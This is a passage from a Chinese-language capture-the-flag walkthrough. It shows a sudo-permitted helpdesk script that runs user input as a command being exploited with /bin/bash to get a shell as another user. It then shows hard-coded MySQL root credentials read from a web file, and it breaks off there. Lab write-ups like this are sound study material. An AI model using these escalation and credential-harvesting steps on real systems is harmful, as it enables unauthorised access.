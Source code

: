     env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

查看这个脚本的内容和权限
```
cat /home/apaar/.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
www-data@ubuntu:/var/www/html/secret$ ls -alh /home/apaar/.helpline.sh
ls -alh /home/apaar/.helpline.sh
-rwxrwxr-x 1 apaar apaar 286 Oct  4  2020 /home/apaar/.helpline.sh
```

此文件对于本账户不可写，因此不可以直接把shell写进bash
但是留意代码内容，它分别接受两个参数，第一个```person```没有什么作用，第二个```msg```，我们可以看见是作为一个命令直接执行了，因此我们可以加以利用

我们把msg命令赋值为：```/bin/bash```，拿到apaar的shell
```
www-data@ubuntu:/var/www/html/secret$ sudo -u apaar  /home/apaar/.helpline.sh 
<ml/secret$ sudo -u apaar  /home/apaar/.helpline.sh 

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: max
max
Hello user! I am max,  Please enter your message: /bin/bash
/bin/bash
id
id
uid=1001(apaar) gid=1001(apaar) groups=1001(apaar)
whoami
whoami
apaar
```

在apaar的home目录拿到user flag

我们在```/var/www/files/index.php```找到数据库登录信息
```
apaar@ubuntu:/var/www/files$ cat index.php
cat index.php
<html>
<body>
<?php
        if(isset($_POST['submit']))
        {
                $username = $_POST['username'];
                $password = $_POST['password'];
                ob_start();
                session_start();
                try
                {
                        $con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");